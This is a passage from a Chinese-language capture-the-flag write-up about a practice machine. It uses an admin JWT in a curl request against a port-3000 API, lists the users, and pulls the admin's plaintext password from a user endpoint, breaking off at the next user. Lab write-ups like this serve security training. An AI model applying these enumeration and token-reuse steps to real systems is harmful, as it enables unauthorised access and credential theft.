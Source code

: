 现在我们有了一个有效的 JWT，访问端口 3000 会得到以下响应:

```
curl -s -H "Authorization: Bearer eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6ImFkbWluIiwiaWF0IjoxNTY4NDUxOTg3LCJleHAiOjE1Njg1MzgzODd9.qC0H5LCBtZQCbgadv5BlAy8_AojNnMs5wY2We6pJmBI" [http://10.10.10.137:3000](http://10.10.10.137:3000) | jq{
  "message": "Welcome admin ! "
}
```

作为管理员的欢迎横幅出现。

## 枚举用户

使用 JWT 访问 10.10.10.137:3000/users 得到以下输出:

```
[
  {
    "ID": "1",
    "name": "Admin",
    "Role": "Superuser"
  },
  {
    "ID": "2",
    "name": "Derry",
    "Role": "Web Admin"
  },
  {
    "ID": "3",
    "name": "Yuri",
    "Role": "Beta Tester"
  },
  {
    "ID": "4",
    "name": "Dory",
    "Role": "Supporter"
  }
]
```

## /用户/管理员

```
{
  "name": "Admin",
  "password": "WX5b7)>/rp$U)FW"
}
```

因为在我们之前的枚举中，存在/users/admin，所以我们可以从 json 输出中尝试/users/"name"。

## /users/derry
